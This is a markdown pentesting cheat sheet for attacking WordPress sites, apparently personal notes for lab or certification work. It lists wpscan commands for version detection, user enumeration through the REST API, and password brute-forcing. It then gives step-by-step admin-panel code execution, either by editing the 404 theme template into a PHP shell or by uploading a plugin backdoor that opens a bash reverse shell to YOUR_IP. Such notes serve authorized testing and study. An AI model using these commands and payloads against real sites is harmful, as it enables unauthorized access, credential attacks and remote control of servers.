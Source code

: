 ```yaml
---
title: Wordpress 🍔
---
```

## Identify version

- Identify the Wordpress CMS version using the tool **wpscan**: `wpscan --url "http://whatever.com"`

![](Pasted%20image%2020240320111450.png)

## Scan for users

- Obtain all users of a wordpress by the command: `curl http://whatever.com/index.php/wp-json/wp/v2/users/ | grep name`

OR

```shell
wpscan --url "http://whatever.com" --enumerate u
```

- Now bruteforce the username(s) you found by: 

```shell
wpscan --url "http://whatever.com/" -U users.txt -P wordlist.txt
```

## Ignore TLS on https webs

- If you get this error:

![](Pasted%20image%2020240419113548.png)

- Add `--disable-tls-checks`:

```shell
wpscan --url "https://URL" --disable-tls-checks
```

## RCEs (as admin logged in)

- *Credits to [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#panel-rce)*

### Panel RCE

**Modifying a php from the theme used (admin credentials needed)**

Go to `Appearance` >> `Theme Editor` >> `404 Template (at the right)`

Change the content for a php shell (like Pentest Monkey one)
- More info in [Reverse shells 👾](reverse_shells.md)

![](Pasted%20image%2020240531154056.png)

Search in internet how can you access that updated page. In this case you have to access here: [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

### Plugin RCE

It may be possible to upload `.php` files as a plugin. Create your php backdoor using for example:

```php
<?php exec("/bin/sh -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'") ?>
```

Then add a new plugin:

![](Pasted%20image%2020240531154437.png)

Upload plugin and press Install Now:

![](Pasted%20image%2020240531154503.png)

Click on Procced:

![](Pasted%20image%2020240531154519.png)

Probably this won't do anything apparently, but if you go to Media, you will see your shell uploaded:

![](Pasted%20image%2020240531154540.png)

Access it and you will see the URL to execute the reverse shell:

![](Pasted%20image%2020240531154556.png)

